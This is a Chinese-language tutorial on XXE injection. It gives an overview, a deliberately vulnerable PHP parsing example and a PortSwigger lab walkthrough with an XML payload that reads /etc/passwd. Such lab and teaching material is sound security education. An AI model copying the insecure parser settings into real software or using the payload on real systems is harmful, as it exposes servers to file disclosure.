



# 一、XML外部实体注入概述
1. XML外部实体注入（XML External Entity Injection，简称XXE）是一种常见的安全漏洞，通常出现在使用XML解析器的Web应用程序中。XXE漏洞的本质是程序没有对用户输入进行充分的验证和过滤，导致攻击者可以通过构造恶意的XML实体，读取任意文件、执行任意命令等操作。攻击者可以利用XXE漏洞，获取敏感信息、篡改数据、控制服务器等。
2. 在Web应用程序中，经常存在一些功能，例如：上传文件、导入数据等，这些功能处容易出现XXE漏洞。具体来说，这些功能通常会涉及到XML解析器，如果程序没有对用户输入进行充分的验证和过滤，攻击者可以通过构造恶意的XML实体，读取任意文件、执行任意命令等操作，从而导致XXE漏洞的出现。
# 二、代码示例
1. 使用PHP编写一个存在XML外部实体注入的代码示例
```PHP
// 这是一个存在XXE漏洞的PHP代码示例
// 在此示例中，我们使用一个XML文件来模拟用户输入
// 获取用户输入
$xml = file_get_contents('php://input');
// 解析XML
$doc = new DOMDocument();
$doc->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
// 获取XML中的数据
$data = $doc->getElementsByTagName('data')->item(0)->nodeValue;
// 输出数据
echo $data;
```
2. 这段代码存在XXE漏洞，因为它没有对用户输入进行充分的验证和过滤，攻击者可以通过构造恶意的XML实体，读取任意文件、执行任意命令等操作。为了防止XXE漏洞，应该对用户输入进行充分的验证和过滤。
# 三、BurpSuite靶场示例
1. 打开BurpSuite靶场[XML外部实体注入](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files)，同时打开BurpSuite抓包

2. 进入一个商品详情页，点击商品详情页下方的check stock

3. 查看BurpSuite的抓包记录，发现有XML实体请求

4. 修改该XML实体请求尝试读取敏感文件，如下
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			&xxe;
		</storeId>
	</stockCheck>
```
5. 发送修改后的数据包，成功读取到/etc/passwd文件
